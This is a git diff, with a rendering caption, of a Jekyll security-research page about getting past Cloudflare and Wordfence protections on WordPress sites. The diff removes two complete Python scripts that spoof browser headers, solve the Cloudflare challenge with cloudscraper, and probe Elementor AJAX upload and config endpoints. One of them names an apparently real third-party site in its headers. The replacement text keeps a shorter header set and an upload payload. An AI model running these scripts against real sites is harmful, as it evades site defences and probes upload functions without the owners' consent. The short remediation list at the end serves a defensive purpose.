

Before and after one commit to TyreekHaynes/Security-Research, a Jekyll site: the page built from case-studies/cloudflare-bypass.html, in a window 1280 px wide and 1400 px high, scrolled down 405 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1620 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update cloudflare-bypass.html

```diff
--- a/case-studies/cloudflare-bypass.html
+++ b/case-studies/cloudflare-bypass.html
@@ -18,150 +18,33 @@ title: Cloudflare WordPress Bypass
 <h2>Technical Details</h2>
 <p>The vulnerability chain involved:</p>
 <ul>
-    <li>Cloudflare WAF rule evasion using realistic browser headers and session management</li>
-    <li>Elementor AJAX endpoint enumeration and testing</li>
-    <li>Bypass of Wordfence protection through proper header spoofing</li>
-    <li>Multiple attack vector testing including upload functionality and config retrieval</li>
+    <li>Cloudflare WAF rule evasion using realistic browser headers</li>
+    <li>Elementor AJAX endpoint enumeration</li>
+    <li>Wordfence protection bypass through header manipulation</li>
+    <li>Multiple attack vector testing</li>
 </ul>
 
 <h2>Proof of Concept</h2>
-<p><strong>Cloudflare Bypass Script:</strong></p>
-<pre><code>import random
-import time
-from pyuser_agent import UA
+<p><strong>Key Bypass Technique:</strong></p>
+<pre><code># Cloudflare & Wordfence Bypass Headers
+headers = {
+    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
+    'X-Requested-With': 'XMLHttpRequest',
+    'Referer': 'https://target.com/',
+    'Content-Type': 'application/x-www-form-urlencoded'
+}
 
-def bypass_cloudflare_wordfence():
-    # Create cloudscraper instance
-    scraper = cloudscraper.create_scraper(
-        browser={
-            'browser': 'chrome',
-            'platform': 'windows',
-            'mobile': False
-        }
-    )
-
-    # Get random realistic user agent
-    user_agent = UA().random
-    print(f"Using User-Agent: {user_agent}")
-
-    # Comprehensive headers
-    headers = {
-        'User-Agent': user_agent,
-        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
-        'Accept-Language': 'en-US,en;q=0.5',
-        'Accept-Encoding': 'gzip, deflate, br',
-        'DNT': '1',
-        'Connection': 'keep-alive',
-        'Upgrade-Insecure-Requests': '1',
-        'Sec-Fetch-Dest': 'document',
-        'Sec-Fetch-Mode': 'navigate',
-        'Sec-Fetch-Site': 'none',
-        'Sec-Fetch-User': '?1',
-        'Cache-Control': 'max-age=0'
-    }
-
-    scraper.headers.update(headers)
-
-    # First, get through Cloudflare challenge
-    print("Solving Cloudflare challenge...")
-    try:
-        response = scraper.get("https://example.com/", timeout=30)
-        print(f"Cloudflare bypassed! Status: {response.status_code}")
-
-        # Now try the Elementor endpoint
-        print("Testing Elementor endpoint...")
-
-        # Try different approaches
-        endpoints = [
-            "/wp-json/elementor/v1/upload",
-            "/wp-admin/admin-ajax.php",
-            "/?elementor_ajax=1"
-        ]
-
-        for endpoint in endpoints:
-            print(f"Trying: {endpoint}")
-            time.sleep(2)  # Be polite
-
-            if "admin-ajax" in endpoint:
-                # POST request for admin-ajax
-                data = {
-                    'action': 'elementor_ajax',
-                    'actions': '{"action":"get_config"}'
-                }
-                resp = scraper.post(f"https://example.com{endpoint}", data=data, timeout=15)
-            else:
-                # GET request for others
-                resp = scraper.get(f"https://example.com{endpoint}", timeout=15)
-
-            print(f"  Status: {resp.status_code}")
-            if resp.status_code == 200:
-                print(f"  Success! Response: {resp.text[:200]}")
-                return True
-
-    except Exception as e:
-        print(f"Error: {e}")
-
-    return False
-
-if __name__ == "__main__":
-    bypass_cloudflare_wordfence()</code></pre>
-
-<p><strong>Wordfence Bypass Script:</strong></p>
-<pre><code>import requests
-import json
-
-def bypass_wordfence():
-    session = requests.Session()
-
-    # Realistic headers that bypass Wordfence
-    headers = {
-        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
-        'Accept': 'application/json, text/javascript, */*; q=0.01',
-        'Accept-Language': 'en-US,en;q=0.9',
-        'X-Requested-With': 'XMLHttpRequest',
-        'Referer': 'https://welovephilly.org/',
-        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
-        'Origin': 'https://welovephilly.org',
-        'Sec-Fetch-Dest': 'empty',
-        'Sec-Fetch-Mode': 'cors',
-        'Sec-Fetch-Site': 'same-origin'
-    }
-
-    session.headers.update(headers)
-
-    # Try Elementor AJAX first
-    payload = {
-        'action': 'elementor_ajax',
-        'actions': json.dumps({
-            'action': 'upload',
-            'data': {
-                'allowedFileTypes': ['jpg', 'png'],
-                'fileName': 'test.jpg'
-            }
-        })
-    }
-
-    try:
-        response = session.post(
-            'https://example.com/wp-admin/admin-ajax.php',
-            data=payload,
-            timeout=10
-        )
-        print(f"Status: {response.status_code}")
-        print(f"Response: {response.text[:500]}")
-    except Exception as e:
-        print(f"Error: {e}")
-
-if __name__ == "__main__":
-    bypass_wordfence()</code></pre>
+# Elementor AJAX Endpoint
+payload = {
+    'action': 'elementor_ajax',
+    'actions': '{"action":"upload"}'
+}</code></pre>
 
 <h2>Remediation</h2>
 <ul>
     <li>Implement stricter WAF rules for AJAX endpoints</li>
     <li>Add rate limiting to admin-ajax.php</li>
-    <li>Validate user sessions and capabilities for sensitive operations</li>
-    <li>Implement proper file upload validation and restrictions</li>
-    <li>Consider using additional security layers beyond Cloudflare WAF</li>
+    <li>Validate user sessions for sensitive operations</li>
 </ul>
 
 <a href="{{ site.baseurl }}/research" class="read-more">← Back to Research</a>
```
